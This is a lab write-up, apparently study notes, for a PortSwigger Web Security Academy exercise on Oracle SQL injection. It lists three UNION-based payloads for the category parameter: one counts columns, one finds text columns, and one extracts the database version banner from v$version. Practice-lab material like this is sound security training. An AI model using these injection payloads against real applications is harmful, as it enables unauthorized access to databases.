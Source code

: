 ```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on Oracle'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, querying the database type and version on Oracle
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 
* Our Goal: To solve the lab, display the database version string.

## Exp - [SQLi Cheat Sheet - Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)
According to the cheat sheet above, we can use the command to fetch the version of this database, e.g. 
![](https://i.imgur.com/Qxtgz5u.png)
:::warning
Before the recon, the hint told you that this database is created by `Oracle`. So, you must contained `From` preserved word in each query, e.g. `SELECT 'abc' FROM dual`
:::
1. Determine # of columns that are being returned by the query
Payload: `?category=Gifts' union select NULL,NULL from v$version--`

2. Which columns contain text data
Payload: `?category=Gifts' union select 'a','b' from v$version--`
Two of them are text data

3. Attack
Payload: `?category=Gifts' UNION SELECT BANNER,'abc' FROM v$version--`
    :::spoiler Result
    ![](https://i.imgur.com/KqhEhpV.png)
    :::

## Reference